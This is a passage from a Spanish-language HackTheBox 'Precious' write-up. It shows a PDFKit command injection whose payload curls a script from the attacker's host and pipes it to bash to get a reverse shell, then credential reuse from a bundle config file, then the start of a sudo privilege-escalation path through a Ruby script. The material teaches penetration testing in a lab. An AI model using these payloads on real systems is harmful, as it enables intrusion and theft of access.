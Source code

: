 > Despues me di cuenta que no era necesaria la parte inicial, ya que aún así se ejecutaba el RCE:
> ```bash
> http://?=#{'%20`curl http://10.10.14.108:8000/hola.sh|bash`'}
> ```

Aquí simplemente hacemos que envíe la petición web donde está el archivo `hola.sh` y lo ejecute (interprete).

Click en **Submit** yyyyyyyyyyyyyy en nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513bash_nc_rubyRevSH.png" style="width: 100%;"/>

Obtenemos la terminal y estamos dentro del sistema (: ([haremos la terminal bonita y totalmente funcional](https://lanzt.gitbook.io/cheatsheet-pentest/tty), ya que si ejecutamos **CTRL+C** la perderemos y demás no podremos movernos cómodamente en ella).

Nos creamos este script pequeñito para ejecutar comandos remotamente: [rce_pdfKit.rb](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/precious/rce_pdfKit.rb).

# Credenciales volando: ruby -> henry [#](#bundle-creds) {#bundle-creds}

Si nos fijamos somos el usuario `ruby`. Recorriendo sus directorios vemos una carpeta con info sobre [bundle](https://bundler.io/) (gestor de librerías para **Ruby**):

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513bash_rubySH_bundleConfigFileWith_henryPassword.png" style="width: 100%;"/>

Contiene un objeto de configuración con lo que parecen ser unas credenciales, toma más sentido si nos damos cuenta que en el sistema el usuario `henry` existe. Así que haciendo una reutilización de credenciales contra **el sistema** tenemoooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513bash_rubySH_su_henry_done.png" style="width: 100%;"/>

Pos somos **henry** (: 

(Teniendo en cuenta que: existe **SSH**, está expuesto y tenemos usuario y contraseña válidos, generemos mejor una **SSH** 😊)

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando los permisos que tenemos en el sistema como otros usuarios encontramos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513bash_henrySH_sudoL.png" style="width: 100%;"/>

Podemos ejecutar el archivo `/opt/update_dependencies.rb` con el binario `/usr/bin/ruby` como el usuario `root` Y SIN NECESIdad de una contraseña (`NOPASSWD`) 😮 Revisemos el script...

```bash
henry@precious:~$ cat /opt/update_dependencies.rb
```

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
```